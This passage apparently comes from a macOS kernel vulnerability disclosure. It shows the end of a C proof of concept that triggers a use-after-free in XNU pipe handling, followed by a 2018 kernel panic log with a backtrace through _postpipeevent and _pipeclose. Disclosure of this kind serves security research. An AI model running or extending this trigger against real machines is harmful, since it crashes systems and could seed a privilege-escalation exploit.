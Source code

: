 ```C
        
        printf("step 4: Process B exits.\n");
        exit(0);
    }
    
    //wait child process exit
    sleep(1);

    
    printf("step 5: close fd1 and fd2 to trigger crash...\n");
    printf("press any key to trigger...\n");
    getchar();
    
    close(fd[0]);
    close(fd[1]);
    
    return ;
}

int main(int argc, const char * argv[]) {
    /*for (int i=0; i<100; i++) {
        printf("try uaf : %d\n", i);
        try_uaf();
    }*/
    try_uaf();
    
    return 0;
}
```

## panic log
The following is part of the panic log. It shows the call stack.

```
Anonymous UUID:       039B94D9-F271-8A3F-BAE4-C8BF9D6B5BEE

Fri Jun  8 09:45:36 2018

*** Panic Report ***
panic(cpu 1 caller 0xffffff802b68356c): Kernel trap at 0xffffff802bb2f157, type 13=general protection, registers:
CR0: 0x000000008001003b, CR2: 0x0000000112150890, CR3: 0x000000005bf810d1, CR4: 0x00000000001606e0
RAX: 0xffffff8039a6aec0, RBX: 0xffffff8039a6aeb0, RCX: 0xc0ffee340fc235fc, RDX: 0xffffff8039c2ddf0
RSP: 0xffffff888df23c70, RBP: 0xffffff888df23ca0, RSI: 0x0000000000000002, RDI: 0xffffff8039c2ddf0
R8:  0x00000000ffffffff, R9:  0x0000000000000002, R10: 0x0000000000000005, R11: 0x000000000000001f
R12: 0xffffff8039c2dd98, R13: 0xffffff8039c2ddf0, R14: 0x0000000000000001, R15: 0x0000000000000400
RFL: 0x0000000000010202, RIP: 0xffffff802bb2f157, CS:  0x0000000000000008, SS:  0x0000000000000000
Fault CR2: 0x0000000112150890, Error code: 0x0000000000000000, Fault CPU: 0x1 VMM, PL: 0, VF: 0

Backtrace (CPU 1), Frame : Return Address
0xfffffd000005ca70 : 0xffffff802b50abc6 mach_kernel : _handle_debugger_trap + 0x426
0xfffffd000005cac0 : 0xffffff802b6939d4 mach_kernel : _kdp_i386_trap + 0x164
0xfffffd000005cb00 : 0xffffff802b68338a mach_kernel : _kernel_trap + 0x62a
0xfffffd000005cb80 : 0xffffff802b49d110 mach_kernel : trap_from_kernel + 0x26
0xfffffd000005cba0 : 0xffffff802b50a2e0 mach_kernel : _panic_trap_to_debugger + 0x1b0
0xfffffd000005ccd0 : 0xffffff802b50a10c mach_kernel : _panic + 0x5c
0xfffffd000005cd30 : 0xffffff802b68356c mach_kernel : _kernel_trap + 0x80c
0xfffffd000005ceb0 : 0xffffff802b49d110 mach_kernel : trap_from_kernel + 0x26
0xfffffd000005ced0 : 0xffffff802bb2f157 mach_kernel : _postpipeevent + 0x1e7
0xffffff888df23ca0 : 0xffffff802bb31d45 mach_kernel : _pipeclose + 0x165
0xffffff888df23cd0 : 0xffffff802bb332fb mach_kernel : _pipe_close + 0x6b
0xffffff888df23d00 : 0xffffff802bab667b mach_kernel : _closef_locked + 0x1bb
0xffffff888df23d70 : 0xffffff802babe3b1 mach_kernel : _fdfree + 0x151
```